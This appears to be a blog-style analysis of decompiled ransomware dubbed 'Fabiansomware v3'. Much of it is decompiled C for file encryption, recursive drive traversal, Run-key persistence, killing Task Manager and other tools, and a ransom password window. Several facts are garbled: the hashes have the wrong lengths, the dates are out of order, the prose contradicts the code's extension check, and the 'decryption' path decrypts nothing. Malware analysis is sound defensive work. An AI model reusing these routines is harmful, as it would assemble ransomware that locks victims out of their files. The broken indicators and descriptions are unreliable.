

# Analyzing a Decompiled Ransomware: Fabiansomware v3

On March 15, 2025, I came across an intriguing piece of decompiled code generated by Hex-Rays Decompiler (version 9.0.0.240925). This code, written in C++ and compiled with Visual C++, reveals the inner workings of a ransomware variant dubbed "Fabiansomware v3." In this article, I’ll break down its functionality, highlight key components, and illustrate critical sections with code snippets.

## Malware Summary

### Basic Properties
- **MD5**: 694cf0fc905305c8418499e335c7e5d28
- **SHA-1**: 1fa42976f0d8b184ac2d9848c4a3c1e5d285
- **SHA-256**: 7b1bd0cc121818b5f0b59ebe3c9f5eadb7f5fc0fa122497c99e253b
- **Authentihash**: 384a4b25c159a01e6c1233940c484b6354acb25bc5b4c5b0a4f5ca
- **Imphash**: 9f4adc5c007c39ae5725e6f328337
- **Rich PE Header Hash**: ca509755d7b50a9f4a9c37b2da
- **SSDEEP**: 768:pcBE6oEMv3ld9GVM5+ho4vQL8b6Q3ubP+EKmGpdgVM5+sxQLRkub
- **TLSH**: T1E53E9816C7CCE0D2F0D30D7T546AF5E6C32AE235A79F47E7933800716CB64
- **File Type**: Win32 EXE (executable, windows) win32 pe pexe
- **Magic**: PE32 executable (GUI) Intel 80386, for MS Windows
- **TrID**: Win32 Executable (MS Visual C++ generic) (47%) | Win64 Executable (generic) (15%) | Win32 Dynamic Link Library (generic) (9%) | Win16 Executable (generic) (7%) | ...
- **DetectItEasy**: PE32 | Compiler: Microsoft Visual C++ (15.00.21022) [LTCG] | Linker: Microsoft Linker (9.00.21022) | Tool: Visual Studio (2008)
- **File Size**: 65.00 KB (66560 bytes)

### Timeline
- **Creation Time**: 2016-11-16 22:21 UTC
- **First Submission**: 2016-10-18 05:22:29 UTC
- **Last Submission**: 2025-02-04 04:43 UTC
- **Last Analysis**: 2025-01-30 16:58:15 UTC

### Observations
- This appears to be a Windows executable (PE32 format) compiled with Microsoft Visual C++ using Visual Studio 2008.
- The file size is relatively small (65 KB), suggesting a lightweight malware or a component of a larger malware suite.
- Multiple hash values (MD5, SHA-1, SHA-256) are provided for identification and verification.
- The long existence (first submission in 2016, last analysis in 2025) indicates it may be an older malware that has been updated or re-submitted over time.
- The TrID analysis suggests it could be a generic Windows executable or dynamic link library, potentially used for various malicious purposes.

### Potential Threats
- As a PE32 executable, it could be designed to run malicious code on Windows systems.
- The use of Visual Studio 2008 suggests it might be an older strain of malware, possibly with known vulnerabilities or detection methods.
- Further analysis of its behavior and payload would be required to determine its exact malicious intent.

## Overview

Fabiansomware v3 is a malicious program designed to encrypt files on a victim's system, display a ransom demand, and ensure persistence. It leverages Windows APIs for file manipulation, encryption, and process management. The decompiled code provides a window into its operations, from file encryption to GUI creation.

### Key Features
- **File Encryption**: Encrypts files using Microsoft’s cryptographic APIs.
- **Directory Traversal**: Recursively scans drives for target files.
- **Persistence**: Registers itself in the Windows Registry.
- **Process Termination**: Kills specific system processes (e.g., Task Manager).
- **Ransom Note**: Generates a "How_To_Decrypt.txt" file.
- **GUI**: Displays a ransom demand window with a password field.

## Code Analysis

Let’s dive into the most significant functions and their roles.

### 1. Encryption Mechanism (`sub_401080`)

The `sub_401080` function handles file encryption. It uses the Windows Cryptographic API to encrypt files and renames them with a `.encrypted` extension.

```c
int __cdecl sub_401080(LPCWSTR lpFileName) {
  HANDLE FileW = CreateFileW(lpFileName, 0xC0000000, 7u, 0, 3u, 0, 0);
  if (FileW != (HANDLE)-1) {
    HCRYPTPROV phProv;
    HCRYPTHASH phHash;
    HCRYPTKEY phKey;
    if (CryptAcquireContextW(&phProv, 0, L"Microsoft Enhanced RSA and AES Cryptographic Provider", 0x18u, 0xF0000000)) {
      if (CryptCreateHash(phProv, 0x800Cu, 0, 0, &phHash)) {
        if (CryptHashData(phHash, (const BYTE *)pbData, 2 * lstrlenW(pbData), 0) &&
            CryptDeriveKey(phProv, 0x6610u, phHash, 5u, &phKey)) {
          DWORD pdwDataLen = GetFileSize(FileW, 0);
          void *v4 = VirtualAlloc(0, pdwDataLen, 0x3000u, 4u);
          if (ReadFile(FileW, v4, pdwDataLen, &NumberOfBytesRead, 0) &&
              CryptEncrypt(phKey, 0, 1, 0, (BYTE *)v4, &NumberOfBytesRead, pdwDataLen)) {
            WriteFile(FileW, v4, pdwDataLen, &NumberOfBytesRead, 0);
            WCHAR *v5 = (WCHAR *)VirtualAlloc(0, 0x400u, 0x1000u, 4u);
            wsprintfW(v5, L"%s.encrypted", lpFileName);
            MoveFileW(lpFileName, v5);
            sub_401000((int)lpFileName); // Creates "How_To_Decrypt.txt"
          }
        }
      }
    }
    CloseHandle(FileW);
  }
  return v1;
}
```
- **Process**: Opens the target file, acquires a cryptographic context, derives a key, encrypts the file content, and renames it.
- **Ransom Note**: Calls sub_401000 to create a decryption instruction file.

### 2. Directory Traversal (sub_4012C0)

This function recursively scans directories for files to encrypt, targeting specific extensions (e.g., .exe, .dll) while avoiding system files.

```c
HANDLE __cdecl sub_4012C0(LPCWSTR lpString) {
  WCHAR FileName[1024];
  wsprintfW(FileName, L"%s\\*.*", lpString);
  HANDLE hFindFile = FindFirstFileW(FileName, &FindFileData);
  if (hFindFile != (HANDLE)-1) {
    do {
      if ((FindFileData.dwFileAttributes & 0x10) != 0) { // Directory
        if (lstrcmpW(FindFileData.cFileName, L"..") && lstrcmpW(FindFileData.cFileName, L".")) {
          sub_4012C0(FileName); // Recursive call
        }
      } else { // File
        int v4 = 0;
        for (unsigned int i = 0; i < 14; ++i) {
          if (StrStrW(FileName, off_405000[i])) v4 = 1; // Check against extension list
        }
        if (!v4 && (FindFileData.dwFileAttributes & 4) == 0) {
          sub_401080(FileName); // Encrypt file
        }
      }
    } while (FindNextFileW(hFindFile, &FindFileData));
    FindClose(hFindFile);
  }
  return hFindFile;
}
```

- **Target Extensions**: Defined in off_405000 (e.g., .exe, .dll, .txt).
- **Exclusions**: Avoids system files and directories like \Microsoft\Windows.

### 3. Persistence (sub_401AD0)

The ransomware ensures it runs on startup by adding itself to the Windows Registry.

```c
LSTATUS sub_401AD0() {
  HKEY phkResult;
  RegCreateKeyW(HKEY_CURRENT_USER, L"Software\\Microsoft\\Windows\\CurrentVersion\\Run", &phkResult);
  RegSetValueExW(phkResult, L"Windows Explorer", 0, 1u, (const BYTE *)ApplicationName, 2 * lstrlenW(ApplicationName));
  RegCloseKey(phkResult);
  RegCreateKeyW(HKEY_LOCAL_MACHINE, L"Software\\Microsoft\\Windows\\CurrentVersion\\Run", &phkResult);
  RegSetValueExW(phkResult, L"Windows Explorer", 0, 1u, (const BYTE *)ApplicationName, 2 * lstrlenW(ApplicationName));
  return RegCloseKey(phkResult);
}
```

- **Location**: Adds an entry under Run keys for both current user and local machine.

### 4. Process Termination (sub_401820)

This function continuously monitors and terminates processes like Task Manager and Registry Editor.

```c
void __stdcall __noreturn sub_401820(LPVOID lpThreadParameter) {
  while (1) {
    Sleep(0x64u);
    HANDLE hSnapshot = CreateToolhelp32Snapshot(2u, 0);
    PROCESSENTRY32W pe = { .dwSize = 556 };
    if (Process32FirstW(hSnapshot, &pe) && Process32NextW(hSnapshot, &pe)) {
      do {
        if (!lstrcmpiW(L"taskmgr.exe", pe.szExeFile)) {
          HANDLE v3 = OpenProcess(1u, 0, pe.th32ProcessID);
          if (v3) TerminateProcess(v3, 0);
        }
        // Similar checks for "regedit.exe", "explorer.exe", "cmd.exe"
      } while (Process32NextW(hSnapshot, &pe));
    }
    CloseHandle(hSnapshot);
  }
}
```

- **Purpose**: Prevents users from interfering with the ransomware.

### 5. GUI and Decryption (sub_401BE0 and start)

The start function initializes the program, creates a mutex to avoid multiple instances, and sets up a GUI window. The sub_401BE0 function handles window messages, including password input for decryption.

```c
WPARAM __stdcall start(HINSTANCE hInstance, int a2, int a3, int a4) {
  CreateMutexW(0, 0, L"Local\\Fabiansomware");
  if (GetLastError() == 183) ExitProcess(0); // Exit if already running
  // Copy itself to %PROGRAMFILES%\Windows NT\explorer.exe
  CopyFileW(&pszFirst, ApplicationName, 1);
  sub_401AD0(); // Set persistence
  // Create GUI window
  WNDCLASSEXW v27 = { .cbSize = 48, .lpfnWndProc = sub_401BE0, .lpszClassName = L"Fabiansomware v3" };
  RegisterClassExW(&v27);
  HWND Window = CreateWindowExW(0, L"Fabiansomware v3", L"Fabiansomware v3", 0x480000u, ...);
  hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)sub_401820, 0, 0, 0); // Start process killer
  // Message loop
  while (GetMessageW(&Msg, 0, 0, 0)) {
    TranslateMessage(&Msg);
    DispatchMessageW(&Msg);
  }
  return Msg.wParam;
}

LRESULT __stdcall sub_401BE0(HWND hWnd, UINT Msg, WPARAM wParam, LPARAM lParam) {
  if (Msg == 273 && !HIWORD(wParam)) { // Button click
    WCHAR String[256];
    GetWindowTextW(::hWnd, String, 255);
    if (dword_405460(0, String, 2 * lstrlenW(String)) == 664891434) { // Check password CRC32
      TerminateThread(hThread, 0);
      sub_401A70(); // Restart explorer.exe
      sub_401B70(); // Remove persistence
      ExitProcess(0);
    }
    MessageBoxW(0, L"Incorrect Password!", L"Error", 0x10u);
  }
  return DefWindowProcW(hWnd, Msg, wParam, lParam);
}
```

- **GUI**: Displays a window prompting for a password.
- **Decryption**: Verifies the password using a CRC32 check (hardcoded value: `664891434`).



Conclusion
----------

Fabiansomware v3 is a sophisticated ransomware that combines file encryption, persistence, and anti-analysis techniques. Its use of Windows APIs for cryptography and process management makes it a potent threat. However, the hardcoded CRC32 value for the decryption password (`664891434`) could be a weak point for reverse engineers to exploit.

This analysis underscores the importance of understanding malware behavior to develop effective countermeasures. Stay vigilant, and keep your systems patched!